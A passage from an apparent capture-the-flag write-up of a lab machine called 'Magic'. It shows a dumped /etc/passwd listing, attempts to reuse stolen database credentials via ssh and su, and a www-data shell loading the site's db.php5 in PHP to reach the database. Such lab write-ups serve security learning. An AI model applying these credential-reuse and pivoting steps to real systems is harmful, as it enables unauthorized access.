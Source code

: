 ```
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:105:111::/run/uuidd:/usr/sbin/nologin
avahi-autoipd:x:106:112:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
dnsmasq:x:108:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
rtkit:x:109:114:RealtimeKit,,,:/proc:/usr/sbin/nologin
cups-pk-helper:x:110:116:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
speech-dispatcher:x:111:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
whoopsie:x:112:117::/nonexistent:/bin/false
kernoops:x:113:65534:Kernel Oops Tracking Daemon,,,:/:/usr/sbin/nologin
saned:x:114:119::/var/lib/saned:/usr/sbin/nologin
pulse:x:115:120:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
avahi:x:116:122:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
colord:x:117:123:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
hplip:x:118:7:HPLIP system user,,,:/var/run/hplip:/bin/false
geoclue:x:119:124::/var/lib/geoclue:/usr/sbin/nologin
gnome-initial-setup:x:120:65534::/run/gnome-initial-setup/:/bin/false
gdm:x:121:125:Gnome Display Manager:/var/lib/gdm3:/bin/false
theseus:x:1000:1000:Theseus,,,:/home/theseus:/bin/bash
sshd:x:123:65534::/run/sshd:/usr/sbin/nologin
mysql:x:122:127:MySQL Server,,,:/nonexistent:/bin/false
```

As usual, trying the credentials we just got in the places we can access. This means `ssh` and `su`. It might sound dumb to try it since these are obviously database credentials, but many times they can be the same as the ones for the user. This was unsuccessful, so let's try poking at the db.
Sadly, `mysql` was not installed. Let's try to connect via PHP directly then. Just trying `php -a` and creating the connection to the DB using PDO directly results in PHP complaining about not having the database drivers... That's weird, since the website clearly works...

After some struggling, it was just a matter of versions. The system has several installed and `php` is aliased to PHP 5, while the driver is only installed for PHP 7. Typing in `php` and hitting tab a couple of times shows us what we need to use:

```
www-data@ubuntu:/var/www/Magic$ php
php        php5.6     php7.3     php7.4     phpdismod  phpenmod   phpquery
```

As such, let's start creating the connection and such... Wait! Maybe we can just reuse the `db.php5` file! I'm lazy, so let's try that! (This was the original shell when I was first doing the box, I included it so that the version struggles are also shown)

```
ww-data@ubuntu:/var/www/Magic$ php -a
Interactive mode enabled

php > require 'db.php5';
php > $pdo = Database::connect();
could not find driver
php > ^Dwww-data@ubuntu:/var/www/Magic$ php7.4 -a
Interactive mode enabled

php > require 'db.php5';
php > $pdo = Dat
Database                              date_get_last_errors                  date_time_set
date                                  date_interval_create_from_date_string date_timestamp_get
date_add                              date_interval_format                  date_timestamp_set
date_create                           date_isodate_set                      date_timezone_get
date_create_from_format               date_modify                           date_timezone_set
date_create_immutable                 date_offset_get                       DateInterval
date_create_immutable_from_format     date_parse                            DatePeriod
date_date_set                         date_parse_from_format                DateTime
date_default_timezone_get             date_sub                              DateTimeImmutable
date_default_timezone_set             date_sun_info                         DateTimeInterface
date_diff                             date_sunrise                          DateTimeZone
```
